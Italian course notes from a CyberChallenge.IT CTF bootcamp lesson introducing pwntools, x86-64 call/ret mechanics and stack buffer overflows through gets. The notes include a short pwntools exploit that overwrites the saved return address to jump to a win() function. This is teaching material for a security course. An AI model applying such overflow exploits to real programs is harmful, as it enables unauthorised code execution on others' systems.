

# Binary Exploitation 1

> [!abstract]
> Prima lezione del modulo di **binary exploitation** (*pwn*) del CyberBootCamp (CyberChallenge.IT): *a gentle introduction to the buffer overflow*. Si parte dallo strumento di lavoro, la libreria Python **pwntools**, che serve a parlare con un processo locale o remoto e a manipolare byte, indirizzi e assembly. Poi si chiarisce la differenza tra *rev* e *pwn*, si ripassa come la CPU chiama funzioni (il ruolo di `rip`, come `call` e `ret` usano lo stack), e si arriva al **buffer overflow**: scrivendo più byte di quanti ne stia il buffer si sovrascrive l'**indirizzo di ritorno** salvato sullo stack. Riempiendolo di spazzatura il programma va in *segmentation fault*; riempiendolo con un indirizzo **valido** si dirotta l'esecuzione — tipicamente verso una funzione `win()`.
> Lezione precedente: [[03 - CB - Assembly 101]]. Lezione successiva: [[05 - CB - Binary Exploitation 2]]. Mappa del corso: [[MOC - CyberBootCamp]].

> [!note] Prerequisiti
> Questa lezione dà per acquisiti [[Registri x86-64|registri]], [[Stack Frame x86-64|stack e stack frame]] e [[Calling Convention|calling convention]] della lezione [[03 - CB - Assembly 101]]. Per il lato *rev* (trovare la flag dentro il file) vedi [[02 - CB - Reverse Engineering 1]].

## pwntools: lo strumento di lavoro

Vedi [[pwntools]].

**pwntools** è una libreria Python pensata per interagire con le challenge di *pwn*. Si installa e si importa così:

```bash
pip install pwntools
```
```python
from pwn import *
# Documentazione: https://docs.pwntools.com
```

### Avviare o connettersi a un processo

```python
r = process('./executable')                      # processo locale
r = process(['./executable', 'arg1', 'arg2'])    # con argomenti
r = remote('www.google.com', 80)                 # processo remoto (host, porta)
```

Per interagire a mano dal terminale, e per chiudere la connessione:

```python
r.interactive()    # passa il controllo all'utente
r.close()          # ricordarsi di chiudere le connessioni
```

### Leggere e scrivere

```python
data = r.recv(10)            # legge 10 byte
data = r.recvline()          # legge fino a '\n'
data = r.recvuntil(b'>')     # legge fino al primo '>'
data = r.recvall()           # legge fino a EOF — da evitare!

r.send(b'somedata')
r.sendline(b'somedata')          # aggiunge un '\n' finale
r.sendafter(b'>', b'mycommand')  # aspetta '>' e poi invia
r.sendlineafter(b'>', b'mycommand')
```

> [!tip] `*after` è comodo
> `sendlineafter(b'>', payload)` aspetta il prompt del programma e invia subito dopo: evita di dover alternare a mano `recvuntil` e `sendline`.

### Caricare un ELF e manipolare i byte

```python
e = ELF('./chal')
e.address = 0x400000             # imposta l'indirizzo base
hex(e.symbols['main'])           # indirizzo di un simbolo → '0x4011a2'
```

Funzioni utili per i valori esadecimali e per convertire interi in byte (fondamentali per costruire i *payload*):

```python
bytes.fromhex('41424344')        # b'ABCD'
b'ABCD'.hex()                    # '41424344'
print(hexdump(b'ABCDABCD'*2))

p32(0xdeadbeef)                  # b'\xef\xbe\xad\xde'  (little-endian)
u32(b'\xef\xbe\xad\xde')         # 0xdeadbeef
# analoghi: p64/u64, p16/u16, p8/u8
```

> [!important] `p64` ed endianness
> `p64(addr)` impacchetta un indirizzo a 64 bit in **little-endian**, il formato con cui gli indirizzi stanno in memoria su x86-64. È ciò che si usa per sovrascrivere l'indirizzo di ritorno con un indirizzo valido. `u64` fa l'inverso: ricostruisce l'intero da byte **letti** (per esempio da un leak).

### Il `context` e gli helper

Il `context` decide il comportamento globale di pwntools:

```python
context.arch = 'amd64'       # default: 'i386'
context.binary = './exec'    # autorilevato dal file
context.log_level = 'debug'  # oppure 'info', 'error', …
context.terminal = ['...']
```

Ci sono helper per assemblare e disassemblare al volo, e per agganciare GDB al processo:

```python
asm('mov rax, 0; ret').hex()              # '48c7c000000000c3'
disasm(bytes.fromhex('48c7c000000000c3')) # mov rax, 0 ; ret

gdb.attach(r, 'gdbscript here')           # aggancia GDB a un processo già avviato
r = gdb.debug([e.path], 'gdbscript here') # avvia direttamente sotto GDB
```

> [!warning] `attach` e `debug` non sono identici
> `gdb.attach` e `gdb.debug` a volte si comportano diversamente (ambiente, stato iniziale): se un exploit funziona sotto uno e non sotto l'altro, è un punto da controllare. Per il debugging con [[pwndbg]] vedi la lezione [[02 - CB - Reverse Engineering 1#E il reversing dinamico?|Reverse Engineering 1]].

## Rev contro pwn: qual è la differenza?

Sia il *reversing* sia il *pwn* partono da un eseguibile, ma:

- nel **rev** la flag si trova **analizzando il file stesso**: il binario contiene il controllo, lo si capisce e lo si inverte (vedi [[02 - CB - Reverse Engineering 1]]);
- nel **pwn** la flag è su una **macchina remota**. Noi abbiamo solo una **copia** dell'eseguibile per studiarlo, ma **non possiamo modificare** il programma in esecuzione: bisogna trovare e sfruttare una **vulnerabilità** già presente.

L'agenda della lezione: *calling conventions → buffer overflow → exploitation → prevention*.

## Come la CPU esegue il codice

La macchina conserva lo stato del lavoro nei [[Registri x86-64|registri]]. Riepilogo dei ruoli in x86-64:

| Registro | Ruolo |
|---|---|
| `rax` | risultato intero o puntatore di una parola |
| `rdi, rsi, rdx, rcx, r8, r9` | primi sei argomenti interi o puntatori di una parola (System V AMD64) |
| `rbp` | *base pointer* |
| `rsp` | *stack pointer* |
| `rip` | *instruction pointer*: punta all'istruzione corrente |

Quindi `printf("Ciao %d %d %ld", int1, int2, big_num)` mette il formato in `rdi`, `int1` in `rsi`, `int2` in `rdx`, `big_num` in `rcx` (è la [[Calling Convention#System V|System V]]).

> [!example]- Figure delle slide 25–29
>
> ![[CB-L04-p25.png]]
>
> **Slide 25.** La tabella presenta i nomi dei registri x86-64.
>
> ![[CB-L04-p26.png]]
>
> **Slide 26.** Le annotazioni associano alcuni registri al valore di ritorno, ai parametri e allo stack.
>
> ![[CB-L04-p27.png]]
>
> **Slide 27.** La chiamata di esempio illustra come la convenzione distribuisce argomenti interi o puntatori nei registri.
>
> ![[CB-L04-p29.png]]
>
> **Slide 29.** La figura richiama i registri che descrivono lo stack e il punto di esecuzione.

### `rip` è speciale

`rip` indica la prossima istruzione da eseguire. **Non** si può scrivere con un `mov rip, addr`: avanza durante l’esecuzione sequenziale. Alcune istruzioni trasferiscono esplicitamente il controllo:

```asm
call addr
jmp  addr
ret
```

Dopo ogni istruzione eseguita `rip` avanza all'istruzione successiva (e istruzioni diverse hanno dimensioni diverse in byte).

> [!example]- Figure delle slide 30–36
>
> ![[CB-L04-p30.png]]
>
> **Slide 30.** Il listato associa un indirizzo a ciascuna istruzione.
>
> ![[CB-L04-p31.png]]
>
> **Slide 31.** La freccia individua l’istruzione da eseguire.
>
> ![[CB-L04-p32.png]]
>
> **Slide 32.** Dopo la prima istruzione RIP punta alla riga successiva del listato.
>
> ![[CB-L04-p33.png]]
>
> **Slide 33.** Un altro avanzamento porta il processore all’istruzione seguente.
>
> ![[CB-L04-p34.png]]
>
> **Slide 34.** Il registro continua a seguire l’ordine sequenziale delle istruzioni.
>
> ![[CB-L04-p35.png]]
>
> **Slide 35.** La freccia raggiunge una nuova posizione nel codice.
>
> ![[CB-L04-p36.png]]
>
> **Slide 36.** La distanza tra indirizzi consecutivi dipende dalla lunghezza in byte dell’istruzione.

### Come funzionano call e ret

Vedi [[call e ret]].

Serve un meccanismo per `call` che funzioni anche con funzioni **ricorsive** (richiamate indefinitamente). La soluzione è lo **stack**. Definizione operativa delle due istruzioni:

```
call <func>  :=  push indirizzo_successivo  ; salva sullo stack l'indirizzo della prossima istruzione
                 jmp <func>      ; salta alla funzione

ret          :=  pop rip         ; preleva dallo stack l'indirizzo e ci ritorna
```

> [!example]- Figure delle slide 38–49
>
> ![[CB-L04-p38.png]]
>
> **Slide 38.** Il codice del chiamante e quello della funzione chiamata sono mostrati affiancati.
>
> ![[CB-L04-p39.png]]
>
> **Slide 39.** La freccia è ancora nel chiamante, prima della chiamata.
>
> ![[CB-L04-p40.png]]
>
> **Slide 40.** Il processore prosegue nel chiamante mentre prepara gli argomenti.
>
> ![[CB-L04-p41.png]]
>
> **Slide 41.** RIP raggiunge la chiamata.
>
> ![[CB-L04-p42.png]]
>
> **Slide 42.** Il controllo passa alla prima istruzione della funzione.
>
> ![[CB-L04-p43.png]]
>
> **Slide 43.** RIP avanza nel corpo della funzione chiamata.
>
> ![[CB-L04-p44.png]]
>
> **Slide 44.** L’esecuzione raggiunge il ritorno.
>
> ![[CB-L04-p45.png]]
>
> **Slide 45.** Per riprendere il chiamante occorre ricordare l’indirizzo successivo alla chiamata.
>
> ![[CB-L04-p49.png]]
>
> **Slide 49.** Accanto al listato compare lo stack, che conserverà questo indirizzo.

![[CB-L04-p50.png]]

Prima della chiamata, `RIP` individua la `call` e `RSP` indica la cima dello stack. _(slide 50)_

![[CB-L04-p51.png]]

Lo schema scompone la chiamata in salvataggio dell’indirizzo di ritorno e salto. La notazione didattica `rip+1` conta le righe del disegno. Su x86 l’indirizzo salvato segue tutti i byte della `call`. _(slide 51)_

> [!example]- Figure delle slide 52–61
>
> ![[CB-L04-p52.png]]
>
> **Slide 52.** Compare sullo stack la cella con l’indirizzo di ritorno.
>
> ![[CB-L04-p53.png]]
>
> **Slide 53.** RIP passa alla funzione chiamata, mentre il valore salvato resta sullo stack.
>
> ![[CB-L04-p54.png]]
>
> **Slide 54.** Il listato della funzione termina con ret.
>
> ![[CB-L04-p55.png]]
>
> **Slide 55.** La funzione vede lo stesso indirizzo di ritorno in cima allo stack.
>
> ![[CB-L04-p56.png]]
>
> **Slide 56.** La freccia avanza nel corpo della funzione.
>
> ![[CB-L04-p57.png]]
>
> **Slide 57.** RIP raggiunge ret.
>
> ![[CB-L04-p58.png]]
>
> **Slide 58.** Il riquadro scompone ret nella lettura dell’indirizzo salvato e nell’avanzamento della cima.
>
> ![[CB-L04-p59.png]]
>
> **Slide 59.** La freccia collega la cella salvata al nuovo valore di RIP.
>
> ![[CB-L04-p60.png]]
>
> **Slide 60.** La cella viene rimossa dallo stack logico e il controllo torna al chiamante.
>
> ![[CB-L04-p61.png]]
>
> **Slide 61.** Il chiamante riprende dall’istruzione successiva alla call.

Esempio: la `call printf` alla riga `0x3` (la successiva è `0x4`):



Il `ret` prende l'indirizzo **in cima allo stack** e ci salta. Ed è esattamente questo il punto debole: *e se quell'indirizzo lo controllassimo noi?*

## Buffer overflow

Vedi [[Buffer Overflow dello Stack]].

Consideriamo una funzione che legge input in un buffer locale con `gets`:

```asm
function:
0x30: push rbp
0x31: sub  rsp, 0x20        ; alloca 32 byte di buffer
0x32: lea  rdi, [rbp-0x20]  ; rdi punta al buffer
0x33: call gets             ; legge input nel buffer
0x34: leave
0x35: ret
```

Lo stack, dopo il prologo, ha in alto l'**indirizzo di ritorno**, sotto il **base pointer salvato**, e sotto ancora i 32 byte del buffer:

```
indirizzi alti   ┌───────────────────────┐
                 │  indirizzo di ritorno │  ← lo userà "ret"
                 ├───────────────────────┤
                 │   rbp salvato         │
                 ├───────────────────────┤
                 │                       │
                 │   buffer (0x20 byte)  │  ← gets scrive da qui, verso l'alto
indirizzi bassi  └───────────────────────┘  ← rsp
```

### Scrittura sequenziale e il problema di `gets`

`gets` scrive l'input nel buffer **in sequenza**, verso gli indirizzi più alti, e **non controlla la lunghezza**. Finché l'input ci sta (es. una stringa di 32 byte), va tutto bene. Ma possiamo scrivere qualcosa di *enorme*: superati i 32 byte del buffer, la scrittura **tracima** (*overflow*) e sovrascrive prima il `rbp` salvato, poi l'**indirizzo di ritorno**.

Con un input come:

```
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBFUCKEDUP"
 └──────── 32 'A' (riempie il buffer) ─────────┘└ 8 'B'┘└ "FUCKEDUP"┘
                                                  rbp salvato  indirizzo di ritorno
```

al `ret` la CPU fa `pop rip` e ci finisce dentro `0x4655434B45445550` (`"FUCKEDUP"` interpretato come indirizzo): `rip` punta a un indirizzo senza senso e il programma va in **segmentation fault**.

> [!warning] `gets` è il colpevole tipico
> `gets` non ha modo di sapere quanto è grande il buffer: scrive finché arriva input. Le challenge introduttive di pwn ruotano quasi sempre attorno a una funzione di lettura **senza limite di lunghezza** (`gets`, oppure `read`/`scanf` usate male).

## Exploitation: sovrascrivere il return address

Vedi [[Sovrascrivere il Return Address]].

Il crash dimostra che **controlliamo `rip`**. Ma andare in segfault significa solo aver messo un indirizzo *non valido*: se al posto della spazzatura mettiamo un indirizzo **valido**, il programma **non crasha** — prosegue da dove diciamo noi.

Con un input costruito così (per un buffer da 0x20 + 8 byte di `rbp`):

```
b"A"*0x20            # riempie il buffer
+ b"B"*8             # sovrascrive il rbp salvato (valore qualsiasi)
+ p64(win_addr)      # sovrascrive l'indirizzo di ritorno con un indirizzo valido
```

al `ret` l'esecuzione salta dove vogliamo. **Dove** conviene farla tornare? Verso una funzione che stampa la flag: la classica **`win()`**.

```python
from pwn import *
e = ELF('./chal')
r = process('./chal')
payload = b"A"*0x20 + b"B"*8 + p64(e.symbols['win'])
r.sendline(payload)
r.interactive()
```

> [!tip] Trovare l'offset esatto
> La parte difficile è sapere **quanti byte** servono prima di raggiungere l'indirizzo di ritorno. Lo si ricava dal disassemblato (`sub rsp, 0x20` → buffer da 0x20, più 8 byte di `rbp` salvato) oppure a runtime con un *pattern ciclico* (`cyclic` in pwntools) osservando quale valore finisce in `rip` al crash. Questo richiede il debugging dinamico: vedi [[pwndbg]].

## Prevenzione

Come si difende un programma C scritto a mano da un buffer overflow? La slide è ironica — *"Get good. That's it. (Or switch to a memory safe language)"* — ma il messaggio è reale:

- scrivere C memory-safe è difficile e soggetto a errori; e
- un linguaggio **memory-safe** (Rust, Go, …) elimina alla radice questa classe di bug.

Nel mondo reale, però, i compilatori e il sistema operativo aggiungono delle **mitigazioni** (stack canary, PIE, NX, …) che rendono l'attacco più difficile ma non impossibile. È il tema della lezione successiva.

> [!summary] In sintesi
> Un buffer overflow su una funzione che legge senza limiti permette di sovrascrivere l'indirizzo di ritorno salvato sullo stack e, con un indirizzo valido, di dirottare l'esecuzione verso `win()`. Le difese contro questo attacco — e come aggirarle — sono in [[05 - CB - Binary Exploitation 2]].
